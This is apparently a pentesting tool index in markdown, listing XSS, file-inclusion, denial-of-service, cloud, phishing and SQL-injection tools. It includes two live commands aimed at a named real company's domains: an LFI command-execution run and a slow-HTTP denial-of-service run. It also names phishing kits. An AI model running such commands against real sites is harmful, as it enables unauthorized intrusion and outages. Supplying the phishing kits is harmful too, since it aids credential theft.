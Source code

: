 ## XSS
* [xss-Strike](https://github.com/s0md3v/XSStrike )
* [ppmap](https://github.com/kleiton0x00/ppmap.git)

## LFI E RFI
* [kadimus](https://github.com/P0cL4bs/kadimus)
  - requiriment: apt install libcurl4-nss-dev libpcre3-dev libssh-dev
./kadimus -u https://www.cocamar.com.br/busca?s= -T data --parameter -c "id"

## DOS
* [slowhttptest](https://github.com/shekyan/slowhttptest.git)
  - slowhttptest -c 500 -H -g -o ./result -i 10 -r 200 -t GET -u https://sunweb.cocamar.com.br/ -x 24 -p 2
 
## CLOUD
* [Cloud Brute](https://github.com/0xsha/CloudBrute)
* [Awesome Azure Pentest](https://github.com/Kyuu-Ji/Awesome-Azure-Pentest)

## PISHING

* [gophish](https://github.com/gophish/gophish)
* [zphisher](https://github.com/htr-tech/zphisher)
* [SocialFish](https://github.com/UndeadSec/SocialFish)

## SQL INJECTION

* [sqlmap](https://github.com/sqlmapproject/sqlmap)

## COMUNICATTION
* [vectro.io](http://vectr.io/)
* [slack](https://slack.com/intl/pt-br/)


## References

* https://tryhackme.com/
* Gdorks Dracul
* All repositories and contributors on this docs.